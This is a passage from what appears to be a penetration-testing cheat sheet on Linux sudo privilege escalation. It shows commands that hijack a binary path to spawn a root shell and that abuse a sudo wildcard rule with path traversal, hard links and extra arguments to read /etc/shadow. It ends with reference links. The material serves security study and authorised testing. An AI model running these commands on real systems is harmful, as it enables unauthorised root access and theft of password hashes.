 ```bash
echo '/bin/bash -p' > /usr/sbin/python
chmod +x /usr/sbin/python
```

Then execute the sudo command.

```bash
sudo python /home/user/example.py
```
{% endtab %}
{% endtabs %}

### Bypassing paths  - Wildcard & Symlink

{% tabs %}
{% tab title="Enumerate" %}
If we can execute some command as root and it contains a **wildcard**. We may use **symlinks**, **path traversal** or **multiple arguments** to exploit it.

```bash
$ sudo -l

env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User demo may run the following commands on crashlab:
    (root): /bin/less /var/log/*
```
{% endtab %}

{% tab title="Exploit" %}
We can exploit it by using path traversal technique

```bash
sudo less /var/log/../../etc/shadow
```

or we can exploit it by using symlinks technique

```bash
ln /etc/shadow /var/log/new
sudo less /var/log/new
```

Finally we can try to read 2 files at same time

```bash
sudo less /var/log/something /etc/shadow
```
{% endtab %}
{% endtabs %}



## References

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#sudo" %}

{% embed url="https://atom.hackstreetboys.ph/linux-privilege-escalation-environment-variables/" %}

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/" %}
